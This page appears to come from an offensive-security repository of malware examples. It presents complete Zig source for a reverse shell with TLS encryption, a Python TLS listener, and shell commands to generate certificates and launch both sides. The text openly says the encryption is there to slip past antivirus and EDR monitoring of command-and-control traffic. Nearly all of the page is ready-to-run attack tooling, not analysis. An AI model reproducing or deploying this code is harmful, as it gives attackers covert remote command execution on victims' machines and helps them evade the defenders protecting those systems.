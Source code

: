 # Reverse Shell With TLS

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Malware-Examples/Reverse-Shell/std_reverse_shell_with_tls)

This example implements a classic reverse shell **using only Zig's standard library**.  
Unlike the [previous one](../std_reverse_shell), this version **implements TLS encryption**, so all network traffic is encrypted. In real-world operations, antivirus and EDR solutions often monitor network traffic. If they detect something resembling command-and-control behavior, it may trigger an alert — which is exactly what we want to avoid. With this reverse shell, encrypted traffic helps **bypass basic detections** by obscuring the communication.

## Connection Graph

```mermaid
sequenceDiagram
    participant A as 🖥️ Attacker's Machine
    participant N as 🌐 Network
    participant T as 💻 Target Machine

    Note over A: Send encrypted command
    A->>N: 🔒 Encrypted command
    N->>T: 🔒 Encrypted traffic
    Note over T: Decrypt and run
    T->>N: 🔒 Encrypted response
    N->>A: 🔒 Encrypted traffic
    Note over A: Get execution result
```

## Usage

As an attacker, on the attacking machine, you should generate the certification and the key before starting a listener.

```bash
# Generate cert and key first
openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 365 -nodes -subj "/CN=localhost"

# Start listener
./listener.py 6666 server.crt server.key utf-8
```

After that, you can trigger the reverse shell on the target by passing the IP and port as the arguments.

```bash
./std_reverse_shell_with_tls example.com 6666
```

## Reverse Shell

```zig title="main.zig"
const std = @import("std");
const builtin = @import("builtin");

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const args = try std.process.argsAlloc(allocator);
    defer std.process.argsFree(allocator, args);

    if (args.len != 3) {
        std.debug.print("Usage: {s} <IP> <PORT>\n", .{args[0]});
        return;
    }

    const target_hostname = args[1];
    const target_port_str = args[2];

    const target_port = std.fmt.parseInt(u16, target_port_str, 10) catch |err| {
        std.debug.print("Error parsing port '{s}': {}\n", .{ target_port_str, err });
        return;
    };

    var shell: []const []const u8 = undefined;

    if (builtin.os.tag == .windows) {
        shell = &[_][]const u8{"cmd.exe"};
        std.debug.print("[+] Using cmd.exe as the shell\n", .{});
    } else if ((builtin.os.tag == .linux) or (builtin.os.tag == .macos)) {
        shell = &[_][]const u8{"/bin/sh"};
        std.debug.print("[+] Using /bin/sh as the shell\n", .{});
    } else {
        std.debug.print("[-] Cannot detect target OS\n", .{});
        return;
    }

    std.debug.print("[+] Connecting to {s}:{d}\n", .{ target_hostname, target_port });

    // Create TCP connection
    const address_list = try std.net.getAddressList(allocator, target_hostname, target_port);
    defer address_list.deinit();

    const stream = std.net.tcpConnectToAddress(address_list.addrs[0]) catch {
        std.debug.print("[-] Connection failed\n", .{});
        return;
    };
    defer stream.close();

    // Initialize TLS client
    var tls_client = std.crypto.tls.Client.init(stream, .{
        .host = .no_verification,
        .ca = .self_signed,
    }) catch |err| {
        std.debug.print("[-] TLS initialization failed: {}\n", .{err});
        return;
    };

    std.debug.print("[+] TLS connection established\n", .{});

    // Start shell process
    var process = std.process.Child.init(shell, allocator);
    process.stdin_behavior = .Pipe;
    process.stdout_behavior = .Pipe;
    process.stderr_behavior = .Pipe;

    try process.spawn();
    defer _ = process.kill() catch {};

    var buffer: [4096]u8 = undefined;

    // Main I/O loop - similar to your original working version
    while (true) {
        // Read command from TLS connection
        const bytes_read = tls_client.read(stream, &buffer) catch break;
        if (bytes_read == 0) break;

        // Send command to process stdin
        _ = process.stdin.?.write(buffer[0..bytes_read]) catch break;

        // Small delay to let command execute
        std.time.sleep(100 * std.time.ns_per_ms);

        // Try to read stdout first
        if (process.stdout.?.read(&buffer)) |stdout_len| {
            if (stdout_len > 0) {
                _ = tls_client.writeAll(stream, buffer[0..stdout_len]) catch break;
            }
        } else |_| {
            // If no stdout, try stderr
            if (process.stderr.?.read(&buffer)) |stderr_len| {
                if (stderr_len > 0) {
                    _ = tls_client.writeAll(stream, buffer[0..stderr_len]) catch break;
                }
            } else |_| {
                // If no output available, send a prompt or newline
                _ = tls_client.writeAll(stream, "\n") catch break;
            }
        }
    }

    // Wait for process to finish
    _ = process.wait() catch {};
    std.debug.print("[+] Session ended\n", .{});
}
```

## Listener (Python)

```python title="listener.py"
#!/usr/bin/env python3

import socket
import sys
import threading
import ssl

if len(sys.argv) <= 4:
    print(f"Usage: {sys.argv[0]} <port> <cert> <key> <encode>")
    print(f"Example: python listener.py 6666 server.crt server.key utf-8")
    exit(1)
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=sys.argv[2], keyfile=sys.argv[3])

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(("0.0.0.0", int(sys.argv[1])))
sock.listen()

print(f"[+] TLS Listener started on port {sys.argv[1]}")
print("[+] Waiting for connection...")

conn, addr = sock.accept()

try:
    conn = context.wrap_socket(conn, server_side=True)
    print("[+] TLS handshake completed successfully")
    print("[+] Encrypted reverse shell session established")
    print("=" * 50)
except Exception as e:
    print(f"[-] TLS handshake failed: {e}")
    conn.close()
    exit(1)
def recv():
    while True:
        data = conn.recv(65535)
        sys.stdout.buffer.write(data.decode(sys.argv[4]).encode())
        #sys.stdout.buffer.write(data)
        sys.stdout.buffer.flush()

recvthread = threading.Thread(target=recv)
recvthread.start()

while True:
    data = sys.stdin.buffer.readline()
    conn.send(data.decode().encode(sys.argv[4]))
    sys.stdin.buffer.flush()
```
